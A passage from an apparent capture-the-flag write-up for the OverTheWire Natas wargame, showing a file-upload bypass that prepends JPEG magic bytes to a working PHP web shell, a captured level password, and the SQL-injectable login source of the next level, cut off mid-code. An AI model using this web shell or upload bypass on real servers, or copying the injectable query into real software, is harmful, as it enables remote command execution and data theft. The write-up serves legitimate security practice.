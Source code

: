 exif\_imagetype checks the first bytes of the 'image' and verify its a image.  
These first bytes are also called the 'magic number' or 'magic bytes'.

If we change the first bytes of our file to match a image file, lets say jpg, exif\_imagetype will lets it pass. FF D8 FF DB is the JPEG magic number  
[https://www.wikiwand.com/en/List\_of\_file\_signatures](https://www.wikiwand.com/en/List_of_file_signatures)

I used hexdump for VSCode [https://marketplace.visualstudio.com/items?itemName=slevesque.vscode-hexdump](https://marketplace.visualstudio.com/items?itemName=slevesque.vscode-hexdump)

```text
Offset:   00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F     
00000000: FF D8 FF DB 3C 21 2D 2D 20 42 79 20 6A 75 73 74    .X.[<!--.By.just
00000010: 69 6E 2D 70 20 28 68 74 74 70 73 3A 2F 2F 72 61    in-p.(https://ra
```

Python could also be used to add the magic bytes.

```python
fh = open('p_shell.php', 'w')
fh.write('\xFF\xD8\xFF\xE0' + '<?php if (empty($_POST[\'cmd\'])) {$cmd = "";} elseif (!empty($_POST[\'cmd\'])) {$cmd = shell_exec($_POST[\'cmd\']);} ?><form method="POST"><input type="text" style="width:100%;height:25px;" name="cmd" id="cmd" value="<?php if (!empty($_POST[\'cmd\'])) {htmlspecialchars($_POST[\'cmd\'], ENT_QUOTES, \'UTF-8\');} ?>" required><button type="submit" class="btn btn-primary">Execute</button></form><?php if (!$cmd && $_SERVER[\'REQUEST_METHOD\'] != \'POST\'): ?><small>Enter command.</small> <?php elseif ($cmd): ?><pre><?= htmlspecialchars($cmd, ENT_QUOTES, \'UTF-8\') ?></pre> <?php elseif (!$cmd && $_SERVER[\'REQUEST_METHOD\'] == \'POST\'): ?><small>No results.</small> <?php endif; ?>')
fh.close()
```

Upload the file and cat the password file  
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

### Natas 14

```markup
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "<censored>" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
```